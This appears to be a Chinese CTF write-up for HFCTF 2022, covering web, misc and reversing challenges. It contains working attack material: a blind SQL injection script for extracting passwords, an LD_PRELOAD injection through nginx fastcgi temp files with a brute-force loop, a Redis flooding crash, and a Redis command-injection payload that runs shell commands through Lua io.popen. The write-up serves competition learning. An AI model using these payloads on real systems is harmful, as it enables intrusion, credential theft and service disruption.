








# 2022-HFCTF-Writeup

## babysql

本来利用regexp想时间盲注的时候发现mysql8似乎不能利用正则进行时间盲注，然后本地测试偶然报错：



发现这种姿势可以401和500状态码的盲注。

但是直接regexp注入还不行，随便试了一下发现前面加`@tmp:=`就可以了，然后队里别的师傅查mysql8的文档查到了`COLLATE utf8mb4_bin`能区分大小写，写脚本跑出来然后登录就行了。


```sql
import string

import requests


url=""


flag = ""

for i in range(1000):

    for j in "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz01234567890!@$%^&_+":
        if j=="$" or j=="^" or j=="+":
            j = "\\\\"+j
        payload="'||@tmp:=`password`COLLATE`utf8mb4_bin`regexp'^{}.?'||'b'regexp'?:c'||'".format(flag+j)
        data={
            "username":payload,
            "password":1
        }
        r=requests.post(url=url,data=data)
        if(r.status_code==401):
            flag+=j
            print(flag)
            break

```

区分大小写跑出来就行了。

## ezphp

P神密友圈的一道题，环境似乎是dash的导致了P神挖的那个bash的poc没法打，但是发现是nginx环境而且开了fastcgi，有点类似陆队写的这个文章，当时hxp的那题，思路是利用nginx缓存文件进行include：

https://tttang.com/archive/1384/

所以流程也就是文章中提到的了：


- 让后端 php 请求一个过大的文件
- Fastcgi 返回响应包过大，导致 Nginx 需要产生临时文件进行缓存
- 虽然 Nginx 删除了`/var/lib/nginx/fastcgi`下的临时文件，但是在 `/proc/pid/fd/` 下我们可以找到被删除的文件
- 利用putenv把`LD_PRELOAD`设置成这个内存中的文件即可（大文件是so文件）


然后就是写个c然后编译成so，需要so比较大nginx才会缓存，这里的办法就是c代码里面多放这样的：

```c
char a[] = "sdafsdsafsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsdsafsafasdfasfsafasdfas";
```

然后弄了十几万个字符串就行了。
接下来就是爆破的问题，题目给了dockerfile，本地起了一下发现nginx worker是`/proc/12`，队友起的也是在12这里，估计就是12左右了，给个范围开始爆破。

然后一直bp发包，python这边爆破请求即可。

```python
import requests

url = "http://120.79.121.132:22481/index.php"

while True:
    for i in range(10,15):
        for j in range(10,50):
            params={
                "env":"LD_PRELOAD=/proc/{}/fd/{}".format(i,j)
            }
            r = requests.get(url,params=params)
```

## Check in

公众号回复，进入网址，最下面弹幕有快速飘过的flag，多截图几次就可以了。

## Plain Text

复制，base64解密, 



百度翻译，



看不出来奇怪的东西，直接丢入谷歌翻译



那就直接 HFCTF{apple_watermelon} 

##  Quest-Crash

一直set比较比较长的键和值，bp一直发包，跑一会就发现500了，再去访问getFlag就可以得到flag了，不知道到底是内存满了还是redis连接的问题，之前自己的redis出现过被flask的连接数给打崩的情况，但这题队友说应该是内存满了导致的崩溃，比赛时间原因就没有细究。

## Quest-RCE

redis的rce，最近新出了一个redis的cve，利用lua来rce的，但是没法执行eval。

查了一下redis能不能执行多行的命令，试了一下%0a不行。但是想到这是JSON，试了一下`\u000a`发现可以，就出了：

```json
{"query":"SET 1 1\u000aeval 'local io_l = package.loadlib(\"/usr/lib/x86_64-linux-gnu/liblua5.1.so.0\", \"luaopen_io\"); local io = io_l(); local f = io.popen(\"cat /flag_UVEmnDKY4VHyUVRVj46ZeojgfZpxzG\", \"r\"); local res = f:read(\"*a\"); f:close(); return res' 0"}
```

## fpbe

打开ida看一下程序，能找到main函数，扫一眼是我看不懂的样子，遂去网上查了一下发现是bpf程序，甚至能直接找到模板例程是github上的libbpf-bootstrap项目，大概了解下bpf程序的执行流程，用户态可以用C来写运行的代码，再通过一个Clang&LLVM的编译器将C代码编译成BPF目标码用户态通过系统调用bpf()将BPF目标码注入到内核当中内核通过JIT(Just-In-Time)将BPF目编码转换成本地指令码……

参考：https://www.cnblogs.com/hpyu/articles/14254250.html





我们的目标就是通过jit即时编译加载到内核里面的代码：通过idapy把它dump出一个新elf文件

```python

import binascii
f = open('./dump_file','wb')
addr = 0x4F4018
datas = ''
for i in range(1648):
    data = idc.get_wide_byte(addr+i)
    datas += hex(data)[2:].rjust(2,'0')
print(datas)
f.write(binascii.unhexlify(datas))
f.close()
```

结果dump出的elf文件ida打不开，在网上又查了查发现可以通过llvm-objdump这个工具来分析下这个可执行文件的反汇编指令信息



总结一下--

(52366*a+29179*b+28096*d+64392*c==209012997183893)

(37508*a+44499*b+61887*d+27365*c==181792633258816)

(59154*a+25901*b+56709*d+32808*c==183564558159267)

(62010*a+31886*b+33324*d+51779*c==204080879923831)

Z3解一下得到flag：

HFCTF{0vR3sAlbs8pD2h53}


